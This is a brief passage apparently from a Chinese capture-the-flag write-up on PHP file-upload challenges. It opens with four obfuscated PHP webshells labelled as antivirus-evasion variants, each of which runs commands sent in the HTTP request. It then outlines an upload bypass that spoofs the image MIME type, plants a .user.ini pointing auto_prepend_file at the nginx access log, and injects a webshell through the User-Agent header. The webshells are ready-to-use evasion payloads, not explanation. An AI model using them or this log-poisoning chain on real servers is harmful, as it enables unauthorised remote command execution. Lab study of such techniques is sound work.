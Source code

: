 免杀

```php
<?php
$a = "s#y#s#t#e#m";
$b = explode("#",$a);
$c = $b[0].$b[1].$b[2].$b[3].$b[4].$b[5];
$c($_REQUEST[1]);
?>
    
<?php
$a=substr('1s',1).'ystem';
$a($_REQUEST[1]);
?>
    
<?php
$a=strrev('metsys');
$a($_REQUEST[1]);
?>
    
<?php
$a=$_REQUEST['a'];
$b=$_REQUEST['b'];
$a($b);
?>
```

## 169

测试发现

抓包需修改`Content-Type: image/png`

文件名后缀随意。

看看文件内容过滤了啥 <> ? 等等。

只能进行 `.user.ini`日志文件包含了。

思路: 上传 `.user.ini`

```
auto_prepend_file=/var/log/nginx/access.log
```

然后随便上传个php文件即可。

然后改UA为一句话即可。

## 170

测试上传zip，抓包修改，后缀为`php`, MIME类型为`image/png`.

包含`.user.ini`

日志文件`/var/log/nginx/access.log`